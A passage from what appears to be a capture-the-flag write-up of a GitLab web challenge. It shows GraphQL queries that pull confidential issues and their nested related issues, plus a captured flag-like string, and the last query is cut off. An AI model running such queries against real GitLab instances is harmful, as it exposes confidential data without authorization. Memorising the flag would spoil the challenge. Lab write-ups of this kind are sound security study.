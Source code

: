 Now, let’s re-verify:

```jsx
query {
  projects {
    id
    name
    description
    issues {
      id
      title
      description
      confidential
      related {
        id
        title
        description
        confidential
      }
    }
  }
}
```

![Untitled](GitLab%20CTF%20CTF-ATHOME%20Web%20Application%20(Container)%20%20b32ad8085fa440688db96d98da5d35b6/Untitled%2016.png)

```jsx
"[tanuki](5f82e9d6a285711874aa50cb3f71b91c)",
```

```jsx
{
  project(id: 2) {
    id
    name
    description
    issues {
      id
      title
      description
      confidential
      related {
        id
        title
```